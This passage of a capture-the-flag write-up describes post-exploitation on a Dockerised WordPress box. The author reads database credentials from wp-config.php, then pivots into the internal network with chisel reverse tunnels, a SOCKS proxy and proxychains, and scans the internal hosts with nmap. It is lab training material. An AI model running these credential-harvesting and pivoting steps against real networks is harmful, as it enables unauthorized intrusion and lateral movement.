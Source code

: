 This seems like a docker instance. ``/.dockerenv`` confirms that.

Getting `wp-config.php` contents:
```php
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'NCC-1701E');

/** MySQL hostname */
define('DB_HOST', 'mysql');
```

But MySQL server isn't running on this box. IP for this docker box is `172.17.0.3`. SQL server is running on `172.17.0.2`
```bash
ss -ant
State      Recv-Q Send-Q        Local Address:Port          Peer Address:Port
LISTEN     0      128                       *:80                       *:*
TIME-WAIT  0      0                172.17.0.3:80             10.10.14.17:38060
ESTAB      0      0                172.17.0.3:48116           172.17.0.2:3306
ESTAB      0      0                172.17.0.3:80             10.10.14.17:37814
TIME-WAIT  0      0                172.17.0.3:48262           172.17.0.2:3306
```

`mysql` client isn't installed on this box. Let's pivot this box.

# Pivoting
Transfer `chisel` binary to the target.
1. Set up port forwarding 
	``chisel server -p 1111 --reverse``	 on local/kali box, as usual.
	``chisel client YOUR-LOCAL-BOX-IP:1111 R:2222:127.0.0.1:3333`` on target box. Now anything I send to `localhost:2222` on kali will forward to `localhost:3333` on target.
2. There isn't any service running at `3333` which we can access with `2222`, we will make our own service which is chisel socks proxy server on victim.
 	 ``chisel server -p 3333 --socks5``
3. Connect to the proxy server of course by using that `2222` port
	to the target. That chisel socks server listening on `3333` is a way to get traffic to that port.
	``chisel client localhost:2222 socks``
4. Use proxychains to access the proxy server 
    ``echo 'socks5 127.0.0.1 1080' >> /etc/proxychains``  
	Chisel server at `1080` which is getting all that `2222` socks proxy client traffic which can be accessed by just: 
	``proxychains command``

Let's test if we've pivoted to the internal network or not by doing simple nmap scan with proxychains.
```bash
$ proxychains nmap -sT 172.17.0.1-4 --min-rate 1000 -F -sCV 2>/dev/null
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-26 14:03 IST

Nmap scan report for 172.17.0.1
Host is up (0.32s latency).
Not shown: 96 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:e9:8c:c5:b5:52:23:f4:b8:ce:d1:96:4a:c0:fa:ac (RSA)
|   256 f3:9a:85:58:aa:d9:81:38:2d:ea:15:18:f7:8e:dd:42 (ECDSA)
|_  256 de:bf:11:6d:c0:27:e3:fc:1b:34:c0:4f:4f:6c:76:8b (ED25519)
80/tcp   open  http     Apache httpd 2.4.10 ((Debian))
```